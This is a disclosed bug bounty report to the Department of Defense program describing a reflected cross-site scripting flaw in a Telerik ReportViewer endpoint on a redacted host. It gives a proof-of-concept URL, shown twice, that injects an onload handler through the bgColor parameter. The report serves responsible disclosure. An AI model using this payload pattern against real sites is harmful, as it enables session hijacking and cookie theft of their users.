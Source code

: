 # XSS Reflected - ███

## Report Details
- **Report ID**: 1223575
- **URL**: https://hackerone.com/reports/1223575
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-11T04:11:34.303Z
- **Disclosed**: 2022-04-07T19:50:53.134Z

## Reporter
- **Username**: drauschkolb
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi Team,

I found a XSS Reflected.

```
https://██████/Telerik.ReportViewer.axd?optype=Parameters&bgColor=_000000%22onload=%22prompt(1)
```

Thans DRauschkolb

## Impact

XSS vulnerabilities can be used to trick a web user into executing a malicious script, potentially revealing a user's web session information or modify web content & even steal cookies.

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
https://█████/Telerik.ReportViewer.axd?optype=Parameters&bgColor=_000000%22onload=%22prompt(1)

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
